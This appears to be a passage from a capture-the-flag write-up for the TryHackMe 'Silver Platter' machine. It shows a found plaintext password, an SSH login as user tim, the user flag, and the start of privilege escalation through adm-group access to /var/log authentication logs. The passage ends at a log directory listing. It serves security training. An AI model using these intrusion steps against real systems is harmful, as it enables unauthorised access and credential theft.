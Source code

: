 Username: tim

Password: cm0nt!md0ntf0rg3tth!spaw0rdagainlol

## SSH

We can access [[SSH]] :

```
┌──(hax㉿HaxonKali)-[~/THM]
└─$ ssh tim@silverplatter.thm
tim@silverplatter.thm's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

```

And we can cat the first [[Flag]] :

```
tim@silver-platter:~$ cat user.txt 
THM{c4ca4238a0b923820dcc509a6f75849b}
```

# Privilege Escalation

We start [[Privilege Escalation]] checking for sudo -l :

```
tim@silver-platter:~$ sudo -l

[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.

```

Nothing so we go back `cd ..` 2 times and check for group of the user with `id` command :

```
tim@silver-platter:/$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm
```

We have a group called **ADM** , it's not the group **ADMIN** .

If we search for the group adm we can read it's usage and we can read about **WE CAN READ LOG FILES** so we may think we can do something there, so we `cd /var/log` and then `ls -la` :

```
tim@silver-platter:/var/log$ ls -la
total 2128
drwxrwxr-x  11 root      syslog            4096 Jul 12 08:14 .                                                      
drwxr-xr-x  14 root      root              4096 Dec 12  2023 ..                                                     
-rw-r--r--   1 root      root                 0 May  1  2024 alternatives.log                                       
-rw-r--r--   1 root      root             34877 Dec 12  2023 alternatives.log.1                                     
drwx------   3 root      root              4096 May  8  2024 amazon                                                 
drwxr-xr-x   2 root      root              4096 May  1  2024 apt                                                    
-rw-r-----   1 syslog    adm               1621 Jul 12 08:29 auth.log                                               
-rw-r-----   1 syslog    adm               6135 Jul 12 08:14 auth.log.1                                             
-rw-r-----   1 syslog    adm              32399 Dec 13  2023 auth.log.2                                             
```